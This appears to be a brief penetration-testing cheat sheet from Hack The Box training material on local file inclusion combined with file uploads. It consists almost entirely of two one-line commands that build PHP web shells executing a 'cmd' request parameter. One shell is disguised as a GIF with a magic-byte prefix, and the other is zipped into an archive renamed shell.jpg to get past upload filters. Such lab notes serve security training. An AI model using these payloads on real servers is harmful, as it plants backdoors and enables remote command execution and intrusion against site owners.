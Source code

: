 ```yaml
---
title: LFI and File Uploads
---
```


## Crafting Malicious Image

```
Jerad Rodgers@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

## Zip Upload

```
Jerad Rodgers@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```